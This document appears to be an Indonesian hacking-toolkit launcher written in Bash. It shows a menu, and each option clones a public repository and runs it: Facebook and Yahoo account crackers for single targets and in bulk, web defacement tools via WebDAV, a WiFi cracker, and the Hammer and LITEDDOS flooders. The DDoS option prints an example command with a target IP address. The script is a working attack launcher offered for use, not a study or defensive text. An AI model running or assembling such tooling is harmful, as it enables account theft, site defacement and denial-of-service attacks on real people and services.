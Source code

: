 # AGHX-Tools
#!/bin/bash

b="\033[1m"
u="\033[4m"
bl="\e[30m"
r="\e[31m"
g="\e[32m"
bu="\e[34m"
m="\e[35m"
c="\e[36m"
w="\e[37m"
endc="\e[0m"
enda="\033[0m"
blue="\e[1;34m"
cyan="\e[1;36m"
red="\e[1;31m"

figlet Tools AGHX | lolcat -a

echo -e "-------------------------------------" | lolcat
echo -e "WELCOME TO TOOL AGHX" | lolcat -a
echo -e "Author : AGHX"        | lolcat
echo -e "Tools : TOOL AGHX $white" |lolcat
echo -e "By : AGNG-HX $white " |lolcat
echo -e "-------------------------------------" | lolcat
echo Tunggun Sebentar..
sleep 5
read -p "Masukan Nama Anda : "
echo Installing Tools AGHX...
sleep 6

clear
echo "-------------------------------------------------------" | lolcat
figlet MENU TOOLS AGHX |lolcat
echo "-------------------------------------------------------" | lolcat



echo "1. Clooning Yaho"
sleep 1
echo "2. Hack FB Target"
sleep 1
echo "3 Hack FB Masal"
sleep 1
echo "4. Osif"
sleep 1
echo "5. TOOLS TU4N G4L4U"
sleep 2
echo "6. Tools B4J1N64N"
sleep 1
echo "7. Tools TU4N B4DUT"
sleep 1
echo "8. Tools Sk4t3rs"
echo "9. Scan Website "
sleep 1
echo "10. WebDav"
echo "11. HackWifi (Root)" | lolcat
echo "12. Creator Deface "
sleep 1
echo "13. DDOS Hammer"
sleep 1
echo "14. LITE DDOS"

read -p "Silahkan Pilih MenuNya : " pilih

function load()
{
        local text="$@"
        local frame=("/" "_" "\\" "|")

        for frame1 in {1..4}; do
                for frame in ${frame[@]}; do
                        printf "\r$text ${frame}"
                        sleep 0.1
                done
        done
}

if [ $pilih = 1 ]
then
clear
load "sabar"
sleep 1
pkg install python2
pip install requests
pip install mechanize
pkg install git
git clone https://github.com/wahyuandhika/YahooCloning
cd YahooCloning
python2 cloning.py
fi

if [ $pilih = 2 ]
then
clear
figlet TUAN GALAU | lolcat
echo
echo "Loading...!!"
echo ""
sleep 1
apt install git
pkg install python2
pip2 install mechanize
git clone https://github.com/rickyricko302/fb-crackv1
cd fb-crackv1
python2 fb-crack.py
fi

if [ $pilih = 3 ]
then
clear
figlet -f slant W A I T | lolcay
echo
sleep 1
git clone https://github.com/pirmansx/mbf
cd mbf
python2 MBF.py
fi

if [ $pilih = 4 ]
then
clear
echo
echo
sleep 1
apt update && apt upgrade
apt install python2
pip2 install requests mechanize
apt install git
git clone https://github.com/CiKu370/OSIF.git
cd OSIF
pip2 install -r requirements.txt
python2 osif.py
fi

if [ $pilih = 5 ]
then
clear
figlet -f slant r00t@TU4MG4L4U | lolcat
echo
echo "Sabar............!!!!"
sleep 1
pkg install git
pkg install ruby
gem install lolcat
git clone https://github.com/TU4NG4L4U/InstallerV6
cd InstallerV6
sh InstallerV6.sh
fi

if [ $pilih = 6 ]
then
clear
figlet TUAN GALAU | lolcat
echo "\033[34;1mLoading......!!!"
echo ""
sleep 1
apt update && apt upgrade
pkg install git
git clone https://github.com/DarknessCyberTeam/B4J1N64Nv5
cd B4J1N64Nv5
sh B4J1N64N.sh
fi

if [ $pilih = 7 ]
then
clear
sleep 1
pkg install git
git clone https://github.com/TUANB4DUT/TOOLSINSTALLERv1
cd TOOLSINSTALLERv1
chmod +x Tuanb4dut.sh
sh Tuanb4dut.sh
fi

if [ $pilih = 8 ]
then
clear
figlet TUAN GALAU | lolcat
echo "Loading....!!!"
sleep 1
pkg install git
git clone https://github.com/Sk4ters38/SK4T3R5v1
cd SK4T3R5v1
sh SK4T3RS.sh
fi

if [ $pilih = 9 ]
then
clear
sleep 1
pkg install git
git clone https://github.com/PhobiaXploit/Zanscan
chmod +x zanscan.sh
./zanscan.sh
fi

if [ $pilih = 10 ]
then
clear
sleep 1
pkg install git
git clone https://github.com/TUANB4DUT/WEBDAV
cd WEBDAV
sh webdav.sh
fi

if [ $pilih = 11 ]
then
clear
figlet TUAN GALAU | lolcat
echo "Loading....!!!"
echo ""
sleep 1
pkg install git
git clone https://github.com/derv82/wifite
cd wifite
chmod 777 wifite.py
python2 wifite.py
./wifite.py
fi

if [ $pilih = 12 ]
then
clear
figlet TUAN GALAU | lolcat
echo
echo "Loding....!!"
echo
sleep 1
pkg install git
git clone https://github.com/4L13199/LITESCRIPT
cd LITESCRIPT
python2 LITESCRIPT.py
fi

if [ $pilih = 13 ]
then
clear
sleep 1
pkg install python
pkg install git
git clone https://github.com/cyweb/hammer
cd hammer
python hammer.py
fi

if [ $pilih = 14 ]
then
clear
sleep 1
pkg install python2
pkg install git
git clone https://github.com/4L13199/LITEDDOS
echo $red "Cara Jalanin Tools Nya Ketik : "
echo $green "python2 liteDDOS.py [ Ip Target ] [ Port ] [ jumlah ping ]"
echo $green "contoh python2 LITEDDOS.py 148.118.86.37 80 100 "
echo
fi

